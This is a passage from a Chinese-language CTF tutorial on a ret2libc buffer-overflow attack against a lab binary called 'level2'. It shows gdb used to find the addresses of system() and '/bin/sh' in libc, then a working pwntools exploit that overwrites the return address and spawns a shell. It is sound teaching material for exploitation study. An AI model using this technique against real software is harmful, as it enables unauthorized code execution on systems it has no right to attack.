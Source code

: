 如果关掉了ASLR的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是固定的。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。

```
$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
….
(gdb) break main
Breakpoint 1 at 0x8048430
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level2 

Breakpoint 1, 0x08048430 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e5f460 <system>
(gdb) print __libc_start_main
$2 = {<text variable, no debug info>} 0xb7e393f0 <__libc_start_main>
(gdb) find 0xb7e393f0, +2200000, "/bin/sh"
0xb7f81ff8
warning: Unable to access target memory at 0xb7fc8500, halting search.
1 pattern found.
(gdb) x/s 0xb7f81ff8
0xb7f81ff8:  "/bin/sh"

```

我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取libc.so在内存中的起始位置，接下来我们可以通过find命令来查找”/bin/sh”这个字符串。这样我们就得到了system的地址0xb7e5f460以及"/bin/sh"的地址0xb7f81ff8。下面我们开始写exp：

```
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xb7e5f460
binshaddr=0xb7f81ff8

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()

```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。下面我们测试一下exp：

```
$ python exp2.py 
[+] Started program './level2'
[*] Switching to interactive mode
$ whoami
mzheng

```
